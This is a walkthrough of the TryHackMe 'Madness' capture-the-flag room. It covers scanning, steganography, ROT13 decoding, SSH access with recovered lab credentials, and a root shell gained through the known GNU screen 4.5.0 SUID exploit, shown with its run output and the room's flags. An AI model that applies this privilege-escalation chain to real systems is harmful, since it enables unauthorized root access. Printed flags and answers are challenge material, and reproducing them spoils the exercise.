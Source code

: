 ```yaml
---
title: "Madness - TryHackMe"
author: Ludovic COULON
date: 2020-05-15
hero: ./images/hero.png
excerpt: "Writeup for the Madness room on TryHackMe"
---
```


[TryHackMe | Madness](https://tryhackme.com/room/madness)

![https://i.imgur.com/5iW7kC8.jpg](https://i.imgur.com/5iW7kC8.jpg)

Please note this challenge does not require SSH brute forcing.

Use your skills to access the user and root account!

This room is part of the Turmoil series

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.52.214
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnNdHQKU4ZvpWn7Amdx7LPhuwUsHY8p1O8msRAEkaIGcDzlla2FxdlnCnS1h+A84lzn1oubZyb5vMrPM8T2IsxoSU2gcbbgfq/3giAL+hmuKm/nD43OKRflSHlcpIVgwQOVRdEfbQSOVpV5VBtJziA1Xu2dts2WWtawDS93CBtlfyeh+BuxZvBPX2k8XPWwykyR6cWbdGz1AAx6oxNRvNShJ99c9Vs7FW6bogwLAe9SWsFi2oB7ti6M/OH1qxgy7ZPQFhItvI4Vz2zZFGVEltL1fkwk2dat8yfFNWwm6+/cMTJqbVb7MPt3jc9QpmJmpgwyWuy4FTNgFt9GKNOJU6N
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGMMalsXVdAFj+Iu4tESrnvI/5V64b4toSG7PK2N/XPqOe3q3z5OaDTK6TWo0ezdamfDPem/UO9WesVBxmJXDkE=
|   256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB3zGVeEQDBVK50Tz0eNWzBJny6ddQfBb3wmmG3QtMAQ

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

### #1 user.txt

<div className="Image__Small">
  <img src="https://imgur.com/41PScB3.png" alt="blog_image" />
</div>

On the website in the source code we can see "They will never find me" let's wget the image and search if there is anything in there.

Once you open the image an error will show up, we need to convert the header image to a jpg file

<div className="Image__Small">
  <img src="https://imgur.com/zdz5gC1.png" alt="blog_image" />
</div>

```bash
change the first line to this
```

<div className="Image__Small">
  <img src="https://imgur.com/PklK0ei.png" alt="blog_image" />
</div>

Save the hex file and open the image to seethe result !

<div className="Image__Small">
  <img src="https://imgur.com/GrcsvaS.png" alt="blog_image" />
</div>

Nice we have a hidden directory !

<div className="Image__Small">
  <img src="https://imgur.com/01jTS9C.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/9D3EgD5.png" alt="blog_image" />
</div>

Now we have plainly of possibility to resolve this puzzle I've choose the simpler one

I created a list with python

```bash
>>> range(100)
[0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 97, 98, 99]
```

Then a imported this list in burp suite and I started the attack !

<div className="Image__Medium">
  <img src="https://imgur.com/ABpS7HJ.png" alt="blog_image" />
</div>

Now we can extract some files on the "thm.jpg" image from the apache website.

```bash
➜  TryHackMe steghide extract -sf thm.jpg
Enter passphrase:
the file "hidden.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "hidden.txt".

➜  TryHackMe cat hidden.txt
Fine you found the password!

Here's a username

wbxre

I didn't say I would make it easy for you!
```

After reading the hint given by TryHackMe

```bash
There's something ROTten about this guys name!
```

I tried to decode the username using the ROT13 algo

<div className="Image__Medium">
  <img src="https://imgur.com/Qn5keAi.png" alt="blog_image" />
</div>

And it worked !! Let's ssh the server now with the username and password

```bash
ssh joker@ip
password : y2RPJ4QaPF!B
```

Aaaannd it's not working for some reason.. After some time I tried the image on the room

<div className="Image__Small">
  <img src="https://imgur.com/P13mnW4.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe steghide extract -sf 5iW7kC8.jpg
Enter passphrase:
the file "password.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "password.txt".

➜  TryHackMe cat password.txt
I didn't think you'd find me! Congratulations!

Here take my password

"*axA&GF8dP"
```

```bash
➜  TryHackMe ssh joker@10.10.52.214
joker@10.10.52.214's password: "*axA&GF8dP"
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-170-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Thu May 14 15:00:54 2020 from 10.9.2.228
joker@ubuntu:~$ ls
user.txt
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

### #2 root.txt

Now let's get a root access ! :D

```bash
joker@ubuntu:~$ sudo -l
[sudo] password for joker:
Sorry, user joker may not run sudo on ubuntu.
# Nothing to do with sudo :/
```

```bash
joker@ubuntu:~$ find /bin -perm -4000
/bin/fusermount
/bin/su
/bin/ping6
"/bin/screen-4.5.0"
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
joker@ubuntu:~$
```

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41154)

```bash
joker@ubuntu:~$ bash s.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

$ id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
$ cd /root/
$ ls
root.txt
$ cat root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/tpmhPhO.png" alt="TryhackMeProfile" />
  </a>
</center>
